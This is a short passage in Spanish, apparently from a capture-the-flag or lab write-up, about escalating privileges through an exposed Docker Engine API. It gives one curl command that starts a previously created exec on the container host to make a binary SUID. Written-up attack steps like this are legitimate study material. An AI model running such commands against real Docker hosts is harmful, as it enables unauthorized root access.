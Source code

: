 Pero no se hace SUID automáticamente, si no que debemos de ejecutar el sig. comando con el ID que te regresa el comando anterior y esto ejecutara el comando y la hará SUID.
```bash 
❯ curl -X POST -H "Content-Type: application/json" http://172.17.0.1:2375/exec/140e09471b157aa222a5c8783028524540ab5a55713cbfcb195e6d5e9d8079c6/start -d '{}'
```